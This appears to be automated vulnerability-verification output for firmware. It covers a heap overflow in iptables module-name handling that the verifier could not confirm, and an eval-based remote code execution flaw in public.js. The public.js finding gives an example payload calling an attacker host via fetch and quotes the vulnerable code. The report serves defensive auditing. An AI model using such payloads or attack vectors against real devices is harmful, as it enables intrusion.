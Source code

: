 ### Verification Metrics
- **Verification Duration:** 464.36 seconds
- **REDACTED_PASSWORD_PLACEHOLDER Usage:** 432588

---

## heap-overflow-module-name

### Original Information
- **File/Directory Path:** `bin/iptables`
- **Location:** `iptables:0x409960 sym.do_command`
- **Description:** In the `do_command` function, the memory allocation size is calculated as `s4 + *(s5)`, where `s4` accumulates the length of module names and `s5` points to external input. No integer overflow check is performed, leading to insufficient memory allocation when the accumulated value exceeds `0xFFFFFFFF`. Subsequent `memcpy` operations trigger a heap overflow. Attack vector: Command line/NVRAM input → module name processing → heap overflow → arbitrary code execution. Trigger condition: Submit a command with approximately 1000+ accumulated module names (via the `-m` parameter).
- **Notes:** The attack surface is broad (supporting command line/NVRAM input), but the difficulty of triggering is higher than other vulnerabilities.

### Verification Conclusion
- **Description Accuracy:** `unknown`
- **Is a Real Vulnerability:** `False`
- **Risk Level:** `Low`
- **Detailed Reason:** Unable to verify the vulnerability due to: 1) Missing symbol table in binary preventing location of do_command function 2) Disassembly tools failing to retrieve code at address 0x409960 3) Absence of critical evidence to validate core elements (memory allocation calculation (s4+*(s5)), missing integer overflow check, memcpy operation, and input sources). All verification attempts (REDACTED_PASSWORD_PLACEHOLDER analysis tools) failed, with no evidence supporting or refuting the vulnerability's existence.

### Verification Metrics
- **Verification Duration:** 425.21 seconds
- **REDACTED_PASSWORD_PLACEHOLDER Usage:** 604679

---

## network_input-publicjs-eval_rce

### Original Information
- **File/Directory Path:** `wa_www/public.js`
- **Location:** `public.js:88`
- **Description:** The eval function directly executes the 'userExpression' from user input (line 88). Attackers can trigger remote code execution by submitting malicious forms (such as ';fetch(attacker.com)'). The input originates from the calcInput field without any sanitization or sandbox isolation.
- **Code Snippet:**
  ```
  const userExpression = document.getElementById('calcInput').value;
  const result = eval(userExpression);
  ```
- **Notes:** Check if restricted by CSP policy
